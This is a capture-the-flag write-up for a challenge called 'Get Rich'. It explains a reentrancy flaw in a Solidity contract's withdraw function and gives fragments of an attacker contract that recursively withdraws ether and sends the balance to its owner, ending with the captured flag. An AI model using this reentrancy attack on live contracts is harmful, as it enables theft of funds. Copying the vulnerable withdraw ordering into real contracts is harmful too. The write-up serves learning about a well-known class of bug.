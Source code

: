 # Get Rich

This challenge gave us a smart contract and an api to interact with the
blockchain it was running on. Our goal is to drain the smart contract of funds.

Note: due to inefficiencies and issues with my code, I will not use my code, but I will instead explain the solution published by the creator of the challenge: https://pastebin.com/KXAuwRXS.

I used remix to edit the attacking smart contract: https://remix.ethereum.org/

Looking at the solidity contract given to us, the only line that stood out to me was line 62: `msg.sender.call.value(amount)()`. If it is returning ether to a payable smart contract, it will wait for the smart contract to finish executing the code in its fallback function before continuing, when it subtracts from the attacker's balance.
```js
function withdraw(uint256 amount) onlyWithMoney(amount) {
    require(amount > 0);
    msg.sender.call.value(amount)(); // This is called before the next line
    balanceOf[msg.sender]-=amount; // If this function is called recursively, this won't happen until too late!
    Withdraw(msg.sender, amount);
}
```
If an attacker smart contract recursively calls the withdraw() function, it will not subtract from the attacker’s balance until after refunding each recursive call. This means that an attacker can withdraw all the ether in the victim smart contract.

```js
// Start the attack
function attack()  {
    performAttack = true;
    dctf.invest.value(1)(this); // Need to invest a bit to get started.
    dctf.withdraw(1);
}

// Fallback (Called when the contract is paid and another function is not
called)
function() payable {
    if (performAttack) {
        performAttack = false;
        dctf.withdraw(1); // Recursively called
    }
}
```

After successfully exploiting the contract, the flag can be obtained by
transferring the ether to an owned wallet and calling get_flag.

```js
function getJackpot(){
    dctf.withdraw(dctf.balance); // Withdraw monies just in case
    bool res = owner.send(this.balance); // Send all the ether to you
    performAttack = true;
}
```

Due to a bug in my code, I did not actually withdraw any ether, but I did underflow my smart contract’s balance. I then transferred my balance (~1e77) to my wallet and withdrew 100 ether from the victim contract.

```
DCTF{f9c6470f8b5b0873b8b2a22bc2711ea973864b5faa5753ca88b79f8ba0b62c6a}
```
It turns out that this is the same exploit used during the DAO hack.

